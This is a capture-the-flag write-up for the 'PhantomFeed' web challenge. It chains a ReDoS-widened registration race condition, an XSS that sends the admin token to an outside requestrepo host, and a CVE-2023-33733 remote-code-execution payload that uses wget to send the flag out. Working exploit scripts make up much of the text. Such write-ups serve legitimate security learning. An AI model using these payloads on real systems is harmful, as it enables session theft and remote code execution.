 ```yaml
---
layout: writeup
parent: HTB UNI Brains & Bytes
grand_parent: 2023
author: tomvg
category: web
tags: 
title: "PhantomFeed"
subtitle: ""
write_date: 2023-12-10
last_edit_date:
# layout: mathjax # Uncomment this line to enable MathJax
---
```


*Note: Backup of challenge source code available at [web_phantomfeed.zip](/assets/challenge-sources/2023/htb-uni-brains-bytes/web_phantomfeed.zip).*

The PhantomFeed challenge consists of three different components: the marketplace frontend (served at localhost:5000), the marketplace backend (localhost:4000) and a feed of messages (localhost:3000). All of these services are also served by a reverse nginx proxy (localhost:1337) made available on different paths (`/`, `/backend` and `/phantomfeed` respectively).

Similarly, the challenge also consists of three main parts, although we only that with the power of hindsight.

## Registering a user

At `/phantomfeed/register` we can find the form that is used for registration, which will create a user account that still needs to be verified.

```python
db_session = Database()
user_valid, user_id = db_session.create_user(username, password, email)

if not user_valid:
  return render_template("error.html", title="error", error="user exists"), 401

email_client = EmailClient(email)
verification_code = db_session.add_verification(user_id)
email_client.send_email(f"http://phantomfeed.htb/phantomfeed/confirm?verification_code={verification_code}")
```

However, when we look into the email client, we can see that the code for sending the verification code is actually commented out, so currently not working.

```python
def send_email(self, message):
    pass
    # try:
    #     self.server = smtplib.SMTP(self.smtp_server, self.smtp_port)
    #     self.server.starttls()  # Use TLS for security
    #     self.server.login(self.username, self.password)
```

Circling back a bit, we can see that when a new user is created, it is actually verified as the default value of the `verified` column of users is set to `True`:

```
class Users(Base):
  __tablename__ = "users"
  id = Column(Integer, primary_key=True)
  verification_code = Column(String)
  verified = Column(Boolean, default=True)
  username = Column(String)
  password = Column(String)
  email = Column(String)
```

So this means that between the `create_user` call and the `add_verification` call, we have created a user who is actually verified. This means that we have a race condition that would eventually allow us to register and login. However, this interval is unfortunately too small to reliably and practically exploit. Hence, we should try to make the window of opportunity larger. When looking at the implementation of EmailClient, this allows us to do exactly that.

```python
class EmailClient:
  def __init__(self, to_email):
    email_verified = self.parse_email(to_email)

...


  def parse_email(self, email):
    pattern = r"^([0-9a-zA-Z]([-.\w]*[0-9a-zA-Z])*@(([0-9a-zA-Z])+([-\w]*[0-9a-zA-Z])*\.)+[a-zA-Z]{2,9})$"
    try:
      match = re.match(pattern, email)

...
```

When [checking](https://devina.io/redos-checker) whether that regular expression is vulnerable to ReDoS, we can see that it is. This allows us to arbitrarily increase the time that the created user is verified. All we have to do is enter an email that takes a long time to parse. Something like `'A@0' + ('AA.0' * n) + 'AA'` does the job well (the higher `n`, the longer the regex takes to match).

Exploiting the ReOoS and race condition looks as follows:

```python
import random
import string
import time
import asyncio
import aiohttp

def random_user():
  return ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(16))

BASE_URL = 'http://127.0.0.1:1337'  # change with remote IP
BASE_FEED_URL = BASE_URL + '/phantomfeed'

user = random_user()
email = 'A@0' + ('AA.0' * 10) + 'AA'
start = time.time()

async def register(user, email):
  async with aiohttp.ClientSession() as session, session.post(BASE_FEED_URL + '/register', data={"username": user, "password": "yyy", "email": email}) as response:
    await response.text()
    return

async def login(user):
  async with aiohttp.ClientSession() as session, session.post(BASE_FEED_URL + '/login', data={"username": user, "password": "yyy"}, allow_redirects=False) as response:
    text = await response.text()
    if 'Set-Cookie' in response.headers:
      print(response.headers.get('Set-Cookie'))
    return text

async def main():
  t = []
  t.append(asyncio.create_task(register(user, email)))
  for x in range(100):
    t.append(asyncio.create_task(login(user)))
  await asyncio.gather(*t)

asyncio.run(main())
```

If successful (in my experience, most of the times) it will spit out the cookies for a registered user.

## Stealing administrator token

Once we are able to login, we can access quite some more functionality. One example is adding new messages to the feed, that are then visited by the administrator account (Selenium webdriver, with token of administrator set as the `token` cookie).

After a lot of searching, and trying different ways to make use of the cookie, I found that the goal might be to steal the token. We can easily do that if we have an XSS (as the `HttpOnly` attribute is not set on the cookie). So... let's look for an XSS!

Trying all different endpoints, I noticed that the JSON response in `/phantomfeed/oauth2/token` was served with `text/html` as content type. And... this contained the `redirect_url`, which we can fully control, and wasn't validated.

So to exploit this we can do the following steps:

1. Create an OAuth authorization code for our user (by calling `/phantomfeed/oauth2/code`), and set the `redirect_url` to `<script src=//example.com/exploit.js></script>`.
2. Use that code in the URL for `/phantomfeed/oauth2/token` endpoint
3. Send that URL to the administrator bot
4. In `exploit.js` get the token from the administrator, using another call to `/phantomfeed/oauth2/token` (for which we need another valid token)
5. Leak the admin token to ourselves, and PROFIT

The complete exploit for this second phase looks as follows:

```python
import requests
from base64 import b64encode

HOST = "127.0.0.1:1337"  # replace with remote host
BASE_URL = 'http://' + HOST
BASE_FEED_URL = BASE_URL + '/phantomfeed'

s = requests.session()
redirect_url = '<script/src=//foo.drud.us/htb-exploit.js></script>'
token_cookie = "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJwaGFudG9tZmVlZC1hdXRoLXNlcnZlciIsImV4cCI6MTcwMjIyMDA2MiwidXNlcl9pZCI6MjcsInVzZXJuYW1lIjoiaUxKSkxaaGxSMlQwaVVpcCIsInVzZXJfdHlwZSI6InVzZXIifQ.vEvOFjMgvr6atU6IhT1AWjSjrBgxqPj3l2S0oTWyx1ZqlvUejG6Li7FFKtAtF5pvv5jf4TVN25KCE2gZWoJRvE702Ci2Ov0v6RYrwGOYQcUpNEzQZ5l7ueYEVRT8bWUuC3n0h_LNUmmiQHR53N-3IUE9xLKcqSCYw4nDJb-y24gU6P2Vwp4o0W4VbSnDNsBgTalSPbGIEcoo2DO5aupnVtQGCsIBaJ0fqRvDhwhY9zd_VL-mZ3PbVODdyi8efMEVsW6MR_gEPatWIciVfaN92xcty59sOneVGzyYsr6dvVuuiHrAch4VfqizuvO0_OZxrKTh5-vIbSPR1MRr8lTlng"  # replace with token obtained in first step
r = s.get(BASE_FEED_URL + "/oauth2/code?client_id=phantom-market&redirect_url=" + redirect_url, allow_redirects=False, cookies={"token": token_cookie})
code = r.headers.get('Location').replace(redirect_url + '?authorization_code=', '')
r = s.get(BASE_FEED_URL + "/oauth2/code?client_id=phantom-market&redirect_url=" + redirect_url, allow_redirects=False, cookies={"token": token_cookie})
code2 = r.headers.get('Location').replace(redirect_url + '?authorization_code=', '')


js = f'''
(async () => {{
  let resp = await fetch(`http://127.0.0.1:1337/phantomfeed/oauth2/token?client_id=phantom-market&redirect_url=${{atob('{b64encode(redirect_url.encode()).decode('utf-8')}')}}&authorization_code={code2}`);
  let json = await resp.json();
  await fetch(`http://muf9e4po.requestrepo.com/leak?${{json["access_token"]}}`);
}})();
'''

print('link to post to feed: ', "@127.0.0.1:1337/phantomfeed/oauth2/token?client_id=phantom-market&redirect_url=" + redirect_url + "&authorization_code=" + code)
print('JS to host in exploit.js\n=============================================')
print(js)
```

## RCE to get the flag

One functionality that only administrators can do, is generate PDFs of the orders. The PDF is generated based on an HTML, for which the `color` parameter can be controlled, and is used in the template as follows:

```html
<font color="{{ color }}">
  Orders:
</font>
```

Looking for known exploits for the HTML2PDF library that was used, we quickly find CVE-2023-33733, that is an exploit for when the `color` attribute of a `font` is abused (surprise, surprise). Simply copy-pasting and adjusting the executed code of [the PoC for the CVE](https://github.com/c53elyas/CVE-2023-33733) did the trick.

The final exploit looks as follows:

```python
import requests

HOST = "127.0.0.1:1337"  # replace with remost host
BASE_URL = 'http://' + HOST
BASE_BACKEND_URL = BASE_URL + '/backend'

admin_token = "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJwaGFudG9tZmVlZC1hdXRoLXNlcnZlciIsImV4cCI6MTcwMjIyMDQxNCwidXNlcl9pZCI6MSwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIiwidXNlcl90eXBlIjoiYWRtaW5pc3RyYXRvciJ9.nbn6qxsdKQBFtx9m-XQVy8wQlXZq-eSixcoi9PX7EZzRRecHDd2jKq2gElrCBWsmlAy9lZUNbV5BkiKlnfOMylvizqF3D_XbpFP-ExCDnnKcwnJbWA9DslhdsFLVFDuItEosHnQOE37lzs9Q5s1SakD3-PXU1S3vsI8A7kPn5jqxs6TGx0QwOfFJoL7cA8hVR71ZjDWrBtini2bBmOeTyVdEzk7nnrRbWTfO-Hvdp9gW11saDrktLCVuOyDPmWFLP6H9D5LfXuEfzcemd1xtCRc-2x5HwV-W7CmiZ6n5cUgfek7AenUoSC88xkVaicAzbQTShZ6eIT1UbqD2p1IxIQ"  # replace with token obtained in second phase
r = requests.post(BASE_BACKEND_URL + '/orders/html',
                  data={"color": "[[[getattr(pow, Word('__globals__'))['os'].system('wget http://muf9e4po.requestrepo.com/$(cat /flag*)') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'"},
                  headers={"Authorization": f"Bearer {admin_token}"})
```

While listening for requests, we soon see the flag appearing; `HTB{r4c3_2_rc3_04uth2_j4ck3d!}`. Yay!

All in all, great challenge - nice that it was built in different phases!
